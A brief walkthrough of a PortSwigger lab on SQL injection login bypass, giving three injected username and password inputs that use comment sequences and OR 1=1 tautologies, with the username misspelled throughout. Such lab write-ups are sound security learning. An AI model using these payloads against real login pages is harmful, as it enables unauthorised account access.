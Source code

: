 # Lab: SQL injection vulnerability allowing login bypass

## Lab's description

This lab contains a SQL injection vulnerability in the login function.

**End gold:** Log in as `administrator` user.

## Solution

Go to My account page and login as adminstrator

Case 1:

`Username: adminstrator

Password: anything' OR 1=1--'
`

Case 2:

`Username: adminstrator'--

Password: anything`

Case 3:

`Username: adminstrator' OR 1=1--

Password: anything`

**Source:** [Lab: Subverting application logic](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)
